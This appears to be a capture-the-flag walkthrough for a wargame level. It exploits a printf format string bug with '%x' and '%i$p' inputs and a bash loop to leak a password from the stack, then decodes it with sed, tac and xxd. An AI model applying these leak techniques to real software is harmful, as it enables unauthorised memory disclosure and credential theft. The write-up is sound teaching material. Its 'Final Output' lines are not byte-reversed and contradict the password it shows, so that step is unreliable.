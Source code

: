 
# 🔐 OverRide – Level02 Walkthrough

## 🧠 Goal

Extract the password for the next level by exploiting a **format string vulnerability**.

---

## 1️⃣ Understanding the Program

```bash
./level02
```

Outputs:

```
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username:
```

After entering any username and password, you get:

```
<your_user> does not have access!
```

---

## 2️⃣ Disassembling the Program

Attempting to analyze the binary using GDB:

```bash
gdb ./level02
```

However, upon `run`, the program fails with:

```
ERROR: failed to open password file
```

> 🔴 **Important**: The binary detects it's running in a debugger and refuses to open the password file.

This made direct memory inspection impossible (e.g., using `x/s $rbp - offset`).

---

## 3️⃣ Static Analysis

Using `disas main` to disassemble the binary revealed:

- It reads the password from a file using `fopen()`.
- The password is read with `fread()` into a stack buffer.
- Later, the user input is compared to this buffer via `strncmp()`.

So the password **is loaded into memory**, but we can’t easily read it with GDB.

---

## 4️⃣ Discovering the Format String Vulnerability

The program uses:

```c
printf(buffer);
```

Instead of:

```c
printf("%s", buffer);
```

Classic **format string vulnerability** — we can read arbitrary memory.

Test:

```bash
echo "%x %x %x %x" | ./level02
```

This outputs raw hex values from the stack. Vulnerability confirmed.

---

## 5️⃣ Brute-force Stack Dumping

We wrote a loop to leak multiple stack positions:

```bash
for ((i = 1; i < 50; i++)); do
    echo "$i - %$i\$p" | ./level02 | grep does
done
```

Example result:

```
22 - 0x756e505234376848 does not have access!
23 - 0x45414a3561733951 does not have access!
24 - 0x377a7143574e6758 does not have access!
25 - 0x354a35686e475873 does not have access!
26 - 0x48336750664b394d does not have access!
```

Each hex string looks like an ASCII password chunk in **little-endian**.

---

## 6️⃣ Rebuilding the Password

We decoded each leaked value with the following command:

```bash
echo 756e505234376848 | sed 's/../& /g' | tac -rs ' ' | tr -d '\n ' | xxd -r -p; echo
echo 45414a3561733951 | sed 's/../& /g' | tac -rs ' ' | tr -d '\n ' | xxd -r -p; echo
echo 377a7143574e6758 | sed 's/../& /g' | tac -rs ' ' | tr -d '\n ' | xxd -r -p; echo
echo 354a35686e475873 | sed 's/../& /g' | tac -rs ' ' | tr -d '\n ' | xxd -r -p; echo
echo 48336750664b394d | sed 's/../& /g' | tac -rs ' ' | tr -d '\n ' | xxd -r -p; echo
```

> These commands:
> - Split the hex string into byte pairs
> - Reverse byte order (little endian → big endian)
> - Convert hex to ASCII using `xxd`

---

## 7️⃣ Final Output

You’ll get lines like:

```
uNR4h7GH
EAJ5as9Q
7zqCWNgX
5J5hnGXs
H3gPfK9M
```

Combine all lines to get the full password.

---

## 8️⃣ Login with the Real Password

```bash
./level02
--[ Username: edouard
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

Success!

---

## 🧩 Summary Table

| Step | Description |
|------|-------------|
| 1.   | Binary reads password from file into memory |
| 2.   | GDB blocked us — program refuses to open file in debugger |
| 3.   | Disassembled and found `printf(buffer)` vulnerability |
| 4.   | Brute-forced `%i$p` to leak password from stack |
| 5.   | Reversed little-endian hex → ASCII |
| 6.   | Logged in with the real password |


